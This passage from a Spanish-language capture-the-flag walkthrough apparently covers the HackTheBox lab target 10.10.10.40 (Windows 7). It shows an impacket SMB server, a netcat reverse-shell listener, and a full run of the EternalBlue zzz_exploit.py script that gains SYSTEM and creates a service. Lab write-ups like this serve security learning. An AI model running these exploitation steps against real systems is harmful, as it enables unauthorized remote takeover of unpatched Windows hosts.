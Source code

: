 
```zsh
❯ impacket-smbserver smbfolder $(pwd)

```
<br>
4- Nos ponemos por escucha con nc y usando `rlwrap` para obtener una consola más interactiva.

```zsh
rlwrap nc -lvnp 1234 

```
<br>
5- Ejecutamos el script agregando cualquier pipe vulnerable dados en el checker.

```ruby
❯ python2 zzz_exploit.py 10.10.10.40 samr
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
No transaction struct in leak data
leak failed... try again
CONNECTION: 0xfffffa800443b950
SESSION: 0xfffff8a00853c8e0
FLINK: 0xfffff8a003e17088
InParam: 0xfffff8a003df615c
MID: 0x30b
unexpected alignment, diff: 0x20088
leak failed... try again
CONNECTION: 0xfffffa800443b950
SESSION: 0xfffff8a00853c8e0
FLINK: 0xfffff8a001726048
InParam: 0xfffff8a003e2915c
MID: 0x30b
unexpected alignment, diff: 0x-2703fb8
leak failed... try again
CONNECTION: 0xfffffa800443b950
SESSION: 0xfffff8a00853c8e0
FLINK: 0xfffff8a003e3b088
InParam: 0xfffff8a003e3515c
MID: 0x303
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service Zgsk.....
Starting service Zgsk.....
The NETBIOS connection with the remote host timed out.
Removing service Zgsk.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error

```
<br>
6- Comprobamos la correcta obtención de la reverse shell.
